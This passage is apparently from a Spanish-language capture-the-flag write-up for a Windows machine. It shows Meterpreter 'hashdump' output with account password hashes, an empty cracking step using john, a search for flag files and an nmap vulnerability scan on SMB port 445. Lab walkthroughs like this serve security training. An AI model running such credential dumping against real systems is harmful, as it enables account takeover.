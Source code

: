 - `hashdump`

```
meterpreter > hashdump
Administrator:500:b47234f31e261b47587db580d0d5f393:b1e8bd81ee9a6679befb976c0b9b6827:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:0ca071c2a387b648559a926bfe39f8d7:332e3bd65dbe0af563383faff76c6dc5:::
john:1003:dc6e5a1d0d4929c2969213afe9351474:54ee9a60735ab539438797574a9487ad:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:f2b8398cafc7174be746a74a3a7a3823:::
meterpreter > 
```

- Cracking with `john`

```sh

```

## Flag Capture

```
meterpreter > search -f *.txt
Found 50 results...
===================
.
.
.

(buscar user.txt y root.txt)
```

- Ir al directorio y listo!

## Exploit [Opción 2] - Manual

nmap --script "vuln and safe" -p445 $ip_target



